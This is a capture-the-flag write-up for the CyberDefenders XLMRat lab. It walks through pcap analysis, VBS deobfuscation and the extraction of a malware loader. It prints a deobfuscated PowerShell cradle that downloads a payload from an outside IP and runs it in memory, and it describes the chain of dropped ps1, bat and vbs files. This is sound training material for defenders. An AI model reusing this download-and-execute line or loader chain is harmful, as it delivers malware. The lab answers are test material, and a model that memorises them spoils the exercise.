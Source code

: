 CyberDefenders CTF Lab XLMRat
---

https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/

#### Scenario

Analyze network traffic to identify malware delivery, deobfuscate scripts, and map attacker techniques using MITRE ATT&CK, focusing on stealthy execution and reflective code loading.


#### Machine Environment 

- Windows 10 running in VMware workstation
- Flare Windows Install https://github.com/mandiant/flare-vm
- WireShark


### 1.  The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?
---

This pcap consists of 2 host conversations.
	
Wireshark -> Statistics -> Conversations

![image](https://github.com/user-attachments/assets/fe8eb902-92f8-42c3-86f2-251547f74dae)

The first GET request is for a xlm.txt file sourced from 10.1.9.101 and destined to 45.126.209.4

![image](https://github.com/user-attachments/assets/5387616c-63b1-4456-883b-c174120e23e0)

Use WireShark to export the HTTP files to your Windows Flare VM
	
File -> Export Objects -> HTTP

![image](https://github.com/user-attachments/assets/43b4cef2-81a7-46b1-93e1-0bba88230c9c)

The xlm.txt file contains a Visual Basic Script (VBS) that declares an array and stores pieces of code that gets concatenated using a for loop.

![image](https://github.com/user-attachments/assets/bf331842-daba-41a5-abca-11a863e6ae8d)

***RUN CODE AT YOUR OWN RISK
 
By placing the wscript.echo command we can view the output of the variable to the console.

![image](https://github.com/user-attachments/assets/96a50816-aebd-4861-b747-3c543bc282e9)

Open a command prompt and run the .vbs file with cscript.exe displaying the output. 

![image](https://github.com/user-attachments/assets/14dea8b7-4225-46fc-9493-9841ff497ff3)

Bring the output into a text editor and clean it up.  The "[BYTe[]]" lines are not useful and probably a way to confuse people and machine.  

	$A123 = "IeX(NeW-OBJeCT NeT.W"
	$B456 = "eBCLIeNT).DOWNLO"
	$C789 = "'VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING')"
	IeX($A123+$B456+$C789)

This script downloads the first stage of malware and executes in into memory using Invoke-Expression (IeX)

### 2.  
Which hosting provider owns the associated IP address?
---

Using a web site like https://whois.domaintools.com/ shows the hosting provider name.

![image](https://github.com/user-attachments/assets/bd612ade-da08-4bc9-9dff-108e6e7c696e)

### 3.  By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable?
---

Analyzing the mdm.jpg file we open it with a text editor to see two long HEX variables some PowerShell and VBS.  Lets isolate both HEX variables into their own files and convert those HEX files to executable.  Part of the mdm.jpg file has the script needed to convert since it performs those actions when run.  

![image](https://github.com/user-attachments/assets/704145a1-65f9-4ed7-bc55-6f53e6a4fb87)

Create a simple PowerShell script to convert both HEX values to executables.

![image](https://github.com/user-attachments/assets/33894fb9-3ff8-446f-8a38-8a1c6968e6b2)

Both newly created file details show their original filename.  Stub.exe and NewPE2.dll		

![image](https://github.com/user-attachments/assets/91988140-e6d6-4e92-8c7f-8bb3dc715949)

Get the SHA256 of the Stub.exe file as this is the malware executable

![image](https://github.com/user-attachments/assets/0d421874-af85-4e08-a789-8e78e273b443)

### 4.  
What is the malware family label based on Alibaba?
---


### 5.  What is the timestamp of the malware's creation?
---


### 6.  Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.
---

We can grab the portion of LOLBin code and run it independently giving us the path.

![image](https://github.com/user-attachments/assets/13cc40ff-696e-48e3-b7a6-887eeb74c973)

### 7.  The script is designed to drop several files. List the names of the files dropped by the script.
---

The malware creates a PowerShell script (conted.ps1) containing the 2 HEX variables and loads NewPE2.dll
Then creates a bat file (conted.bat) which uses powershell.exe to run the ps1 file.
Finally creating a .vbs (conted.vbs) which leverages WScript.shell to run conted.bat

![image](https://github.com/user-attachments/assets/f4c95d80-08c0-4a0f-9bd6-1658b410fe33)
![image](https://github.com/user-attachments/assets/750c2c1c-7c0a-4c1b-af10-8c002f41ce4c)























